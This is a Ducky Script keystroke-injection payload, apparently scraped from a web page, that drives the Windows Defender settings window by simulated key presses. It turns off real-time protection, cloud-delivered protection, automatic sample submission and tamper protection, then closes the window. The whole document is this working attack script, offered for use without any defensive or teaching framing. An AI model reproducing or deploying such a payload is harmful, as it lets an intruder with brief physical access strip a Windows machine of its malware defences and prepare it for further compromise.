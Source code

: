 ## **This script manually disable Windows Defender.**
***
DELAY 500
<br>
REM Open Windows Defender settings
<br>
CTRL ESC
<br>
DELAY 1000
<br>
STRING Windows Defender Settings
<br>
DELAY 100
<br>
ENTER
<br>
REM Navigate to Virus & Threat Protection 
<br>
DELAY 1000
<br>
ENTER
<br>
REM Navigate to Realtime Protection 
<br>
DELAY 1000
<br>
TAB
<br>
TAB
<br>
TAB
<br>
TAB
<br>
ENTER
<br>
REM Turn Off Realtime Protection
<br>
DELAY 1000
<br>
SPACE
<br>
DELAY 500
<br>
LEFT
<br>
DELAY 500
<br>
ENTER
<br>
REM Turn Off Cloud Delivered Protection
<br>
DELAY 500
<br>
TAB
<br>
DELAY 500
<br>
SPACE
<br>
DELAY 500
<br>
LEFT
<br>
DELAY 500
<br>
ENTER
<br>
REM Turn Off Automatic Sample submission
<br>
DELAY 500
<br>
TAB
<br>
DELAY 500
<br>
SPACE
<br>
DELAY 500
<br>
LEFT
<br>
DELAY 500
<br>
ENTER
<br>
REM Turn Off Temper Protection
<br>
DELAY 500
<br>
TAB
<br>
TAB
<br>
DELAY 500
<br>
SPACE
<br>
DELAY 500
<br>
LEFT
<br>
DELAY 500
<br>
ENTER
<br>
DELAY 2000
<br>
ALT F4